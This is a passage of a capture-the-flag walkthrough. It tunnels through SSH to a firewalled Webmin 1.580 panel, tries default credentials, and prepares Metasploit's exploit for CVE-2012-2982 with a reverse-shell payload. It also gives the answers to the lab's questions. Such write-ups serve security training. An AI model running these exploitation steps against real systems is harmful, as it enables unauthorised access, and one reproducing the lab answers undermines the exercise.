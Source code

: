 We can identify a service running on port ``10000`` but can't be accessed from outside because blocked by a firewall.

We will use a ssh tunnel from our mmachine to redirect the traffic of the blocked service to our localhost interface. Thus we will be able to see and interact with the blocked content.

````bash
ssh -L 10000:localhost:10000 agent47@10.10.10.2
firefox localhost:10000 &
````

If it works we should arrive to a login page where you can instantly identify the CMS used.

>What is the name of the exposed CMS?
>
> __Webmin__
{: .prompt-tip }

Now we need to find the credentials to access the admin panel.

I first tried ``admin:admin`` in the login form but it failed.
Then I looked on internet for the default creds and they said it's the root user (thus the user we are logged in with ssh).

When logged in it is not hard to find the CMS version.

>What is the CMS version?
>
> __1.580__
{: .prompt-tip }

# Tasks #6 - Privilege escalation with Metasploit

We have a CMS name and a version. Now time to look for vulnerabilities.

After some researches I found that this server was vulnerable to a CVE : __CVE-2012-2982__.

Let's play with ``metasploit``.

````console
$ msfconsole -q
msf5 > search CVE-2012-2982

Matching Modules
================
   #  Name                                      Disclosure Date  Rank       Check  Description
   -  ----                                      ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec  2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
````

````console
msf5 > use 0
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > show options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME                   yes       Webmin Username
````